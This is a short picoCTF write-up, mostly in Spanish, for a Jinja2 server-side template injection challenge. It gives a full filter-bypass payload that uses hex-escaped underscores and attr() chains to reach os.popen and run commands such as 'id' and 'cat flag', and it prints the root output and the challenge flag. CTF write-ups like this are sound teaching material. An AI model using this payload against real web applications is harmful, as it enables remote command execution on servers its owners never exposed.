 I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:61197/)!

Hints:
- Server Side Template Injection
- Why is blacklisting characters a bad idea to sanitize input?
# Solucion
Es similar al anterior pero esta vez el sitio web esta mas protegido, por lo cual se usara un codigo mas largo, el cual es `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`
Nos aparece un mensaje que dice uid=0,gid=0 y groups=0
Asi que esta vez se reemplaza id con cat flag y de esa manera aparece la bandera
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`
picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}
# Referencias
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/